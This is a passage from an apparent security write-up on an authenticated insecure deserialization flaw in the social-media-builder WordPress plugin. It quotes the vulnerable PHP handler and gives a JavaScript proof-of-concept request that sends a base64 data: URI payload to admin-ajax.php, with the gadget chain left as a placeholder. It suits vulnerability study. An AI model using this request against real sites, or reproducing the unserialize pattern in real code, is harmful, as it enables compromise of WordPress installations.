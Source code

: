 #### Insecure Deserialization in Social Media Share Buttons

The [social-media-builder](https://wordpress.org/plugins/social-media-builder/) plugin is no longer available for download due to a "Security Issue". It turns out that this is an **authenticated Insecure Deserialization** vulnerability. When calling the `import_buttons` action, the following code is triggered:

<pre class="language-php"><code class="lang-php">class SGMBButton
{
	public $id;
	public $title;
	public $options = array();

	public function init()
	{
            ...
            //! This can be accessed from any authenticated user
<strong>            add_action('wp_ajax_import_buttons', array($this,'importButtons'));
</strong>	}
    
...

public function importButtons()
{
    global $wpdb;
<strong>    $url = $_POST['attachmentUrl'];
</strong><strong>    $contents = unserialize(file_get_contents($url));
</strong>    foreach ($contents as $content) {
        $title = $content->title;
        $options = $content->options;
        $sql = $wpdb->prepare("INSERT INTO ".$wpdb->prefix.'sgmb_widget'."(title, options) VALUES (%s, %s)", $title, $options);
        $res = $wpdb->query($sql);
        echo 'MainRes: '.$res;
    }
}
</code></pre>

A URL inside `?attachmentUrl=` is fetched and unserialized. If the server allows it, you can use a `data:` URI with base64 to return arbitrary content to be deserialized. A JavaScript snippet that triggers this is below:

{% code title="Exploit" %}
```javascript
const payload = `INSERT_DESERIALIZATION_EXPLOIT_HERE`;

fetch("/wp-admin/admin-ajax.php?action=import_buttons", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: "attachmentUrl=data://text/plain;base64," + btoa(payload),
});
```
{% endcode %}

Replace `INSERT_DESERIALIZATION_EXPLOIT_HERE` with a PHP deserialization gadget chain that may require other outdated libraries or custom code.

[^1]: "nopriv" here implies unauthenticated&#x20;
